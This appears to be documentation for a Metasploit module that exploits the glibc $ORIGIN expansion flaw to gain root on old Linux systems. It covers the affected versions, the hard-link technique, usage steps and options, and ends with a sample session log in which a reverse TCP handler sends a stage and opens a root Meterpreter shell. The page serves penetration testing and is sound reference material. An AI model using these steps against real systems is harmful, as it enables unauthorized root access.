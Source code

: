 ## Description

  This module attempts to gain root privileges on Linux systems by abusing a vulnerability in the GNU C Library (glibc) dynamic linker - aka glibc `$ORIGIN` expansion vulnerability.


## Vulnerable Application

  glibc `ld.so` in versions before 2.11.3, and 2.12.x before 2.12.2 does not properly restrict use of the `LD_AUDIT` environment variable when loading setuid executables. This allows control over the `$ORIGIN` library search path resulting in execution of arbitrary shared objects.

  This module opens a file descriptor to the specified suid executable via a hard link, then replaces the hard link with a shared object before instructing the linker to execute the file descriptor, resulting in arbitrary code execution.

  The specified setuid binary must be readable and located on the same file system partition as the specified writable directory.

  This module has been tested successfully on:

  * glibc 2.5 on CentOS 5.4 (x86_64)
  * glibc 2.5 on CentOS 5.5 (x86_64)
  * glibc 2.12 on Fedora 13 (i386)

  RHEL 5 is reportedly affected, but untested.

  Some versions of `ld.so` hit a failed assertion in `dl_open_worker` causing exploitation to fail.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/glibc_origin_expansion_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_origin_expansion_priv_esc 
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [+] The target appears to be vulnerable
  [*] Using target: Linux x86
  [*] Writing '/tmp/.R5Ork' (1279 bytes) ...
  [*] Writing '/tmp/.yE35DWbLd' (320 bytes) ...
  [*] Writing '/tmp/.sk7Z3Vl7vJ' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.138
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.138:59187) at 2018-01-27 04:21:24 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

